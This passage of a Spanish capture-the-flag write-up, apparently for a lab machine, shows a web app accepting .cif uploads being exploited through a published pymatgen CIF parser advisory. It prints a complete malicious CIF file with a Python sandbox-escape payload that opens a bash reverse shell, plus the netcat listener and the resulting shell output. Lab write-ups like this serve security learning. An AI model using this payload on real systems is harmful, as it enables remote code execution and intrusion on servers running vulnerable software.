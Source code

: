 Vemos 2 puertos interesantes, uno que es en el `8000` un archivo llamado `database.db` el cual no nos interesa mucho ya que no hay nada dentro y otro en el puerto `5000` en la que esta alojada una pagina web.

Si le damos en dicha pagina a `registrarnos` ya que no tenemos ningun usuario, entraremos en un `dashboard` donde podremos subir un archivo, pero si nos fijamos solo nos permite subir archivos `.cif` por lo que vamos a investigar si hay alguna vulnerabilidad de dicho archivo.

## Intrusión (user app)

URL = [GitHub Vuln CIF File](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

Vemos que en el siguiente repositorio nos muestra que hay una vuilnerabilidad de ello y como aprovecharla, por lo que haremos lo siguiente.

Crearemos un archivo entorno al repositorio, pero con una reverse shell:

> exploit.cif

```cif
data_5yOhtAoR  
_audit_creation_date            2018-06-08  
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"  
  
loop_  
_parent_propagation_vector.id  
_parent_propagation_vector.kxkykz  
k1 [0 0 0]  
  
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \ 'sh -i >& /dev/tcp/<IP>/<PORT> 0>&1\'");0,0,0'  
  

_space_group_magn.number_BNS  62.448  
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Lo guardamos y lo subiremos a la pagina con el boton de `Upload`, una vez echo eso, veremos que el archivo se ha subido correctamente, por lo que nos pondremos a la escucha antes:

```shell
nc -lvnp <PORT>
```

Y ahora le daremos al boton de `View` para que se nos cree la `reverse shell`, una vez que le hayamos dado veremos lo siguiente si volvemos a donde teniamos la escucha:

```
listening on [any] 7777 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.38] 35828
sh: 0: can't access tty; job control turned off
$ whoami
app
```
